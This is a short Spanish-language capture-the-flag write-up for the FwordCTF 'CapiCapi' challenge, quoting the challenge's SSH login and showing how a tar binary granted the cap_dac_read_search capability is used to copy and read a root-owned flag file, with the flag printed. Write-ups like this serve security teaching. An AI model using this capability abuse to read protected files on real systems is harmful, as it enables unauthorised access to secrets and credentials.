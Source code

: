 # Fword
## Bash
### CapiCapi
*You have to do some privilege escalation in order to read the flag! Use the following SSH credentials to connect to the server, each participant will have an isolated environment so you only have to pwn me!
SSH Credentials
ssh -p 2222 ctf@capicapi.fword.wtf
Password: FwordxKahla
Author: KAHLA*

Nos conectamos a la máquina objetivo y vemos que hay un flag.txt en el /home de nuestro usuario owneado por el root, despues de checkear vectores normales encontramos una capabilite poco comun
```bash
/usr/bin/tar = cap_dac_read_search+ep
```
Con esto podremos leer la flag sin problema al igual que cualquier otro archivo owned por root, ejecutamos lo siguiente
```bash
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -cvf flag.tar /home/user1/flag.txt ## Con esto obtenmos una copia comprimida del archivo
/usr/bin/tar: Removing leading `/' from member names
/home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -xvf flag.tar ## Con esto lo descomprimimos
home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ cat home/user1/flag.txt ## Leemos la flag
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
```
